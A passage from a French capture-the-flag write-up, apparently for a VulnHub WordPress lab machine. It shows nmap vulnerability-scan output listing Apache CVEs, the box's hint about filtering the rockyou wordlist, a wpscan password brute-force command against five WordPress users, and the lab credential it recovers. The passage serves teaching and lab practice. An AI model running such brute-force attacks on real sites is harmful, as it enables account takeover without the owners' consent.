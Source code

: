 ```console
|       CVE-2022-29404  5.0     https://vulners.com/cve/CVE-2022-29404
--- snip ---
|       CNVD-2022-03223 5.0     https://vulners.com/cnvd/CNVD-2022-03223
|       1337DAY-ID-28573        5.0     https://vulners.com/zdt/1337DAY-ID-28573        *EXPLOIT*
|       CVE-2020-11993  4.3     https://vulners.com/cve/CVE-2020-11993
|       CVE-2019-10092  4.3     https://vulners.com/cve/CVE-2019-10092
|       CVE-2018-1302   4.3     https://vulners.com/cve/CVE-2018-1302
|       CVE-2018-1301   4.3     https://vulners.com/cve/CVE-2018-1301
|       CVE-2018-11763  4.3     https://vulners.com/cve/CVE-2018-11763
|       4013EC74-B3C1-5D95-938A-54197A58586D    4.3     https://vulners.com/githubexploit/4013EC74-B3C1-5D95-938A-54197A58586D  *EXPLOIT*
|       1337DAY-ID-35422        4.3     https://vulners.com/zdt/1337DAY-ID-35422        *EXPLOIT*
|       1337DAY-ID-33575        4.3     https://vulners.com/zdt/1337DAY-ID-33575        *EXPLOIT*
|       CVE-2018-1283   3.5     https://vulners.com/cve/CVE-2018-1283
|       PACKETSTORM:152441      0.0     https://vulners.com/packetstorm/PACKETSTORM:152441      *EXPLOIT*
|       CVE-2023-25690  0.0     https://vulners.com/cve/CVE-2023-25690
|       CVE-2022-37436  0.0     https://vulners.com/cve/CVE-2022-37436
|       CVE-2022-36760  0.0     https://vulners.com/cve/CVE-2022-36760
|_      CVE-2006-20001  0.0     https://vulners.com/cve/CVE-2006-20001
MAC Address: 08:00:27:8D:8E:C4 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.93 seconds
```

Ce qui nous intéresse ici, c'est surtout la détection de 5 comptes utilisateurs sur le Wordpress. On peut lancer `WPscan` pour tenter de trouver des plugins vulnérables, mais aucun plugin ne semble détecté même en énumération active.

Je pars donc sur un classique brute-force des comptes et après un moment, je ne demande s'il n'y a pas un indice pour s'éviter de perdre trop de temps. Ce qui est le cas :

> **CLUE**
> 
> OK, this isn't really a clue as such, but more of some "we don't want to spend five years waiting for a certain process to finish" kind of advice for those who just want to get on with the job.
>
> cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt That should save you a few years. ;-)
 
Je réduis donc la wordlist aux mots contenants `k01` et je relance l'attaque :

```bash
docker run -v /tmp/:/data/ --add-host wordy:192.168.56.137 -it --rm wpscanteam/wpscan --url http://wordy/ -U admin,sarah,graham,mark,jens -P /data/k01.txt
```

Un compte en ressort :

```console
[!] Valid Combinations Found:
 | Username: mark, Password: helpdesk01
```
